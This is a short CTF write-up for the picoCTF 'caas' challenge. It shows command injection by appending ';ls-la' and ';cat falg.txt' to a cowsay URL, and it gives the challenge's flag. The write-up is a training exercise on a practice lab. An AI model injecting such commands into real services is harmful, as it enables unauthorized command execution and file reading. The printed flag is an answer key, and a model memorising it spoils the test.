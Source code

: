 # Medium Challenge

> Read full challenge at: https://play.picoctf.org/practice/challenge/202?category=1&difficulty=2&page=2

**This challenge does not have hint!!!**

## Solution

> So, what is "caas":
>
>  Containers as a service (CaaS) is a cloud-based service that allows software developers and IT departments to upload, organize, run, scale, and manage containers by using container-based virtualization.

- I use FireFox for this challenge

**Step** 1: Copy the [link](https://caas.mars.picoctf.net/) in this challenge and paste into a broswer(Chorme, Firefox, etc)

![Image of step 1](image0.png)


**Step 2** : Make a request to the following URL to cowsay your message

Follow the instruction in the website I will copy the URL, the message I will write a random sring like the iamge below 

```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal
```

> You can copy and try it on your browser

![Iamge of step 2](image1.png)

**Step 3** : Find the `Flag`

As I mention above, I can use the command on the url bar like using command on terminal, I will use command **ls-la** to lis all file:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la
```

![Image of step 3.1](image2.png)

So, after list all all file I can see the file **falg.txt** so let use command:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la;cat falg.txt
```

![Image of step 3.2](image4.png)


So, the flag is `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`


